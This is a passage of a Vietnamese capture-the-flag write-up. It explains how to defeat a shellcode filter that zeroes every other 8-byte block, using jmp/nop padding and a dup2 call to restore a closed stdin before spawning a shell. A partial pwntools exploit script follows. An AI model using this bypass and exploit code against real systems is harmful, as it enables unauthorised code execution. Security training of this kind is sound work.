 Nhìn vào source code thì ta thấy được đây là một bài shellcode, đặc biệt là cứ sau mỗi 8 bytes của shellcode nó sẽ chuyển về `0x00`

```c
    uint8_t *cur = (uint8_t*)code + 8;
    while(cur + 8 < code + CODE_SIZE)
    {
        memset(cur, 0, 8);
        cur += 16;
    }
```

Bên cạnh đó sau khi read xong dữ liệu của chúng ta, thì chương trình sẽ đóng `stdin` luôn, và vì cách của mình ở đây là sử dụng `execve` để tạo shell mà do nó đóng stdin rồi thì khi ta có được shell và nhập bất cứ thứ gì khác thì nó cũng không được, nên ta sẽ xử dụng `dup2` để mở lại `stdin` (bằng cách duplicate nó với những syscall hiện có), bên cạnh đó để bypass được việc sau mỗi 8 bytes nó sẽ cho dữ liệu của 8 bytes tiếp theo của mình thành `0x00`, nên ta sẽ xử dụng `jmp` và `nop` để nhảy qua những vùng đó. Bài này cần vừa làm vừa căn chỉnh shellcode liên tục nên ta có thể vào trang [này](https://defuse.ca/online-x86-assembler.htm) cũng khá là tiện

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwncus import *

context.log_level = 'debug'
exe = context.binary = ELF('./chodan', checksec=False)


def GDB(): gdb.attach(p, gdbscript='''

b*main+214
c
''') if not args.REMOTE else None

if args.REMOTE:
    con = sys.argv[1:]
    p = remote(con[0], int(con[1]))
else:
    p = process(argv=[exe.path], aslr=False)

if args.GDB: GDB(); input("Please press ENTER")

# ==================== EXPLOIT ====================

# Every next 8 bytes are zero'ed out
# -> write shellcode that after it executes some instruction it skips to the next 8 byte
# the program closes stdin -> reopen it using dup2 syscall as stdout/stderr isn't closed
# dup2(2, 0) -> this now points stdin to stderr (dup2 will duplicate old_fd to new_fd)


def set_reg(reg, val):
    pad = asm("nop") * 8
    jmp_pad = asm("nop") * 3
    jmp_8 = b"\xeb\x08"

    sc = asm(f"xor {reg}, {reg}")
    sc += jmp_pad
    sc += jmp_8
    sc += pad
    sc += asm(f"push {val}")
    sc += asm(f"pop {reg}")
    sc += jmp_pad
    sc += jmp_8
    sc += pad
```